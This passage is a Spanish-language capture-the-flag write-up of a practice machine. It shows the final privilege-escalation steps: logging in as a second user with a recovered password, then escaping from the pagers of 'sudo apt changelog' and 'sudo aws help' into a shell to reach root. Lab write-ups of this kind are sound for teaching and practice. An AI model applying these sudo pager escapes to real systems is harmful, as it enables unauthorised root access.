 Ganamos acceso como este usuario:
```bash
ww-data@zapasguapas:/opt$ su pronike
Password: pronike11
pronike@zapasguapas:/opt$ 
```

###### Usuario `[ pronike ]`:
Listando los permisos de este usuario:
```bash
sudo -l

User pronike may run the following commands on zapasguapas:
    (proadidas) NOPASSWD: /usr/bin/apt
```

Ejecutamos el binaro
```bash
sudo -u proadidas /usr/bin/apt changelog apt
Des:1 https://metadata.ftp-master.debian.org apt 2.6.1 Changelog [505 kB]
Descargados 505 kB en 2s (284 kB/s)

# Despues ejecutamos este:
!/bin/bash
```

###### Usuario `[ Proadidas ]`:
Tenemos la flag de usuario pero no pedemos verla ya que no nos pertenece el archivo:
```bash
-r-------- 1 root      root        33 abr 17  2024 user.txt
```

Listamos los permisos de este usuario
```bash
sudo -l

User proadidas may run the following commands on zapasguapas:
    (proadidas) NOPASSWD: /usr/bin/apt
    (root) NOPASSWD: /usr/bin/aws
```

Ahora nos aprovechamos de esto para ganar acceso como **root**
```bash
# Comando para escalar al usuario: ( root )
proadidas@zapasguapas:~$ sudo -u root /usr/bin/aws help

# Despues ejecutamos este:
!/bin/bash
```

---

## Evidencia de Compromiso
Ahora si que podemos ver la flag de usuario y la flag de root:
```bash
ls -la /root

-r--------  1 root root   33 abr 17  2024 root.txt
```

```bash
# Captura de pantalla o output final
root@zapasguapas:/home/proadidas# echo -e "\n[+] Pwned: $(whoami)\n"

[+] Pwned: root
```
